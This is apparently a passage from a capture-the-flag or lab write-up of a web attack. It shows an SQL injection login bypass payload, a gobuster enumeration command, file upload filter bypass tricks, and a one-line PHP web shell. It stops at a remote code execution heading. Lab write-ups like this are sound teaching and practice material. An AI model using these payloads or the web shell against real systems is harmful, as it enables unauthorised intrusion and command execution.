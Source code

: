 **SQL Injection Vulnerability:**
- Discovered SQL injection in login form
- Successful bypass using: `admin' OR 1=1-- -`

**Payload Used:**
```
Username: admin
Password: pass' OR 1=1-- -
```

<img width="588" height="604" alt="image" src="https://github.com/user-attachments/assets/50b81658-ec46-468e-aa27-c702c6e935a9" />


### Directory Enumeration

**Gobuster Scan:**
```bash
gobuster dir -u http://$target -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 50
```

<img width="908" height="438" alt="image" src="https://github.com/user-attachments/assets/9a6fd9ff-3d33-4505-953c-65d6660a517a" />
<img width="993" height="374" alt="image" src="https://github.com/user-attachments/assets/cd0cb7e5-c465-453e-960c-eccc19fe16a2" />

**Key Findings:**
- `/upload.php` - File upload functionality
- `/images/` - Directory containing uploaded files

## Initial Access

### File Upload Vulnerability

<img width="750" height="781" alt="image" src="https://github.com/user-attachments/assets/3a7cf1ee-2f96-445f-a7ee-fe4d36128730" />


**Upload Bypass Technique:**
- Added magic bytes (`PNG`) to PHP shell
- Modified `Content-Type` to `image/png`
- Used double extension: `script.php.png`

<img width="592" height="879" alt="image" src="https://github.com/user-attachments/assets/fbad7112-1fa8-43d3-8a8a-b7f414a2e1eb" />


**PHP Web Shell:**
```php
PNG
<?php system($_GET['cmd']); ?>
```

getting a success message
<img width="745" height="196" alt="image" src="https://github.com/user-attachments/assets/8a1c97f4-8a4f-4663-8a81-c82cc59a28b2" />


### Remote Code Execution
